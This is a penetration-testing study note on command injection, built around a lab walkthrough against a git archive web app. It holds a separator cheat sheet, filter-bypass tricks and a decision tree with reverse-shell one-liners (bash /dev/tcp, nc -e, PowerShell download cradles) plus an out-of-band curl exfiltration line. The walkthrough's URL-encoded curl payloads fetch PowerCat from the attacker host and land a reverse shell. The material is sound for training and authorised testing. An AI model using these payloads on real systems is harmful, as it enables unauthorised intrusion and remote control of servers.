

---
tags:
  - command-injection
  - phase/exploitation
  - rce
  - web
---

# Command Injection

> [!tip] Quick Reference — Command Injection
> | OS | Separator | Example |
> |----|-----------|---------|
> | Linux | `;` | `127.0.0.1; id` |
> | Linux | `&&` | `127.0.0.1 && id` |
> | Linux | `\|\|` | `127.0.0.1 \|\| id` |
> | Linux | `` ` `` | `` `id` `` |
> | Linux | `$()` | `$(id)` |
> | Windows | `&` | `127.0.0.1 & whoami` |
> | Windows | `\|` | `127.0.0.1 \| whoami` |
> | Both | `%0a` | URL-encoded newline |

## Decision Tree

```
Input reflected in a system command?
├── Identify OS
│   ├── Linux: cat /etc/passwd, id, uname -a
│   └── Windows: whoami, systeminfo, ipconfig
│
├── Try injection separators
│   ├── ; id          (Linux)
│   ├── & whoami      (Windows)
│   ├── | whoami      (both)
│   └── %0a id        (URL-encoded newline — bypasses some filters)
│
├── Execution confirmed → get reverse shell
│   ├── Linux bash
│   │   └── bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
│   ├── Linux netcat
│   │   └── nc -e /bin/bash <LHOST> <LPORT>
│   └── Windows PowerShell
│       └── powershell -c "iex(iwr http://<LHOST>/powercat.ps1);powercat -c <LHOST> -p <LPORT> -e cmd"
│
├── Filter in place?
│   ├── Spaces blocked → use ${IFS} or tabs (%09)
│   ├── Words blocked → use env vars: ${PATH:0:1} = /
│   └── Burp Intruder with command injection wordlist
│
└── Blind injection? (no output)
    ├── Time-based (Linux): ; sleep 5   or   ; ping -c 5 127.0.0.1
    ├── Time-based (Windows): & ping -n 5 127.0.0.1
    ├── OOB: ; curl http://<LHOST>/?$(id)
    └── Write file: ; echo test > /var/www/html/test.txt
```

## Visual Flow



> [!success] What success looks like
> Your injected command runs alongside the intended one. For example `git%3Bipconfig` returns the Windows IP configuration, and the PowerShell snippet prints `PowerShell`. The final payload lands a reverse shell in your Netcat listener showing a prompt like `PS C:\Users\Administrator\Documents\meteor>`.

> [!danger] Common errors
> - "command injection attempt detected" → a filter blocks bare commands; keep the allowed word (e.g. `git`) and chain yours after a separator like `%3B`.
> - Special characters break the request → URL-encode them (`;` = `%3B`, space = `%20`, `&` = `%26`). See [[🔣 Encoding Reference]].
> - Wrong separator for the OS → Linux uses `;`, `&&`, `||`; Windows CMD uses `&`. If one is filtered, try another.
> - No reverse shell despite RCE → confirm your `python3 -m http.server` shows the GET for powercat.ps1 and that `nc -nvlp 4444` is listening before you fire the payload.
> - `python3 -m http.server 80` fails with `OSError: [Errno 98] Address already in use` → another process already owns port 80 (often a leftover server from an earlier test). Find and kill it: `sudo lsof -i :80` then `sudo kill <PID>`, or just serve on a different port and update the download cradle URL to match.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> Command injection means the website passes your input straight to the operating system's shell. A separator like `;` tells the shell "now run a second command" — so you smuggle your own command in after the one the app expected.

## Resources
- [HackTricks — Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [PayloadsAllTheThings — CMDi](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
- [revshells.com](https://www.revshells.com) — reverse shell generator

Web applications often need to interact with the underlying operating system, such as when a file is created through a file upload mechanism. Web applications should always offer specific APIs or functionalities that use prepared commands for the interaction with the system

> [!info] Spotting the injection point
> The app lets you clone a git repo by submitting a `git clone <URL>` string — the same command you'd type at a shell. That is a strong hint the input is passed to the OS shell, so we may be able to inject our own commands. Submitting a valid clone returns "Repository successfully cloned with command: git clone ... and output: ...", confirming the input is executed on the system.

Furthermore, the actual command is displayed in the web application's output. Let's try to inject arbitrary commands such as ipconfig, ifconfig, and hostname with curl. We'll switch over to HTTP history in Burp to understand the correct structure for the POST request. The request indicates the "Archive" parameter is used for the command.

> [!info] Reaching the parameter with curl
> Burp's HTTP history shows the git command travels in the `Archive` parameter of the POST request. We can drive it directly with `curl` (`-X POST` to set the method, `--data` to set the body). Submitting a bare `ipconfig` is rejected as a "command injection attempt" — a filter is in place, so we'll backtrack from a known-good input (`git`) to find a bypass.

```sh
curl -X POST --data 'Archive=ipconfig' http://192.168.50.189:8000/archive
```

> [!info] Fingerprinting via git
> Submitting bare `Archive=git` returns the git usage/help page, proving we aren't limited to `git clone` — any git subcommand runs. Adding a subcommand like `git version` confirms arbitrary git execution and reveals the OS: Git for Windows reports a version string containing `windows` (e.g. `git version 2.35.1.windows.2`), whereas Linux shows a plain version.

```sh
curl -X POST --data 'Archive=git version' http://192.168.50.189:8000/archive
```

> [!info] Chaining commands past the filter
> The filter only accepts input starting with `git`, so keep `git` and append your command after a separator. A URL-encoded semicolon (`%3B`) chains commands in both Bash and PowerShell; `&&` runs two consecutive commands, and a single `&` works in Windows CMD. `Archive=git%3Bipconfig` runs git and then `ipconfig`, returning the Windows IP configuration.

```sh
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive
```

The output shows that both commands were executed. We can assume that there is a filter in place checking if "git" is executed or perhaps contained in the "Archive" parameter. Next, let's find out more about how our injected commands are executed. We will first determine if our commands are executed by PowerShell or CMD. In a situation like this, we can use a handy snippet, published by PetSerAl that displays "CMD" or "PowerShell" depending on where it is executed.

```sh
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

```sh
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```

The output contains "PowerShell", meaning that our injected commands are executed in a PowerShell environment.

Next, let's leverage command injection to achieve system access with **PowerCat** — a PowerShell implementation of Netcat included in Kali ([source](https://github.com/besimorhino/powercat)). Copy `powercat.ps1` into a working directory, then serve it and start the listener:

```sh
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -nvlp 4444
```

The injected command has two parts joined by a semicolon: a PowerShell download cradle that pulls the PowerCat function from Kali, then the PowerCat call itself (`-c` target, `-p` port, `-e` program to spawn):

```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

Sent via the vulnerable `Archive` parameter (URL-encoded):

```sh
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```

> [!info] Landing the shell
> The Python web server logs a `GET /powercat.ps1 200` (the target pulled the script), and the Netcat listener catches the connection back:
> ```
> connect to [192.168.119.3] from (UNKNOWN) [192.168.50.189] 50325
> PS C:\Users\Administrator\Documents\meteor>
> ```
> You now have a PowerShell reverse shell as the web user. Powercat is one option; you could also inject a PowerShell reverse shell one-liner directly. Exploitation always depends on the target OS, the app, and any security controls in place.

---
%% graph-links %%
## Related
- [[Local file inclusion (LFI)]]
- [[PHP wrappers]]
- [[Using executable files]]
- [[Enumerating and Abusing APIs]]

> [!info] Navigation
> Section: [[Web Applications/Common Web Application Attacks/_index|Common Web Application Attacks]] · Home: [[🏠 Home]]

